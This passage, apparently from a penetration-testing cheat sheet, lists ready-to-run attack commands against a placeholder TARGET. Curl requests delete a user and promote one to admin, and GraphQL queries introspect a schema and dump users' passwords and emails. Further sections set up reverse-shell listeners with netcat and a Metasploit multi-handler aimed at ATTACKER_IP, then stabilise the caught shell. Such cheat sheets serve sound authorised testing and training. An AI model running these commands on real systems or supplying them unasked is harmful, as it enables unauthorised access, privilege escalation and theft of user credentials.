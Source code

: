```bash
curl -X DELETE http://TARGET/api/users/1
curl -X PUT http://TARGET/api/users/1 -d '{"role":"admin"}'
```

### GraphQL Exploitation

```bash
# Introspection query
curl http://TARGET/graphql \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

# Query all users if exposed
curl http://TARGET/graphql \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"query":"{ users { id username password email } }"}'
```

## Getting Reverse Shells

### Setup Listener

```bash
# Basic netcat
nc -lvnp 4444

# Better with rlwrap (command history)
rlwrap nc -lvnp 4444

# Multi-handler (catches multiple shells)
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST ATTACKER_IP; set LPORT 4444; run"
```

### Stabilize Shell

```bash
# Python PTY
python -c 'import pty;pty.spawn("/bin/bash")'
# or
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Background shell with Ctrl+Z, then:
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash

# Resize terminal
stty rows 38 columns 116
```
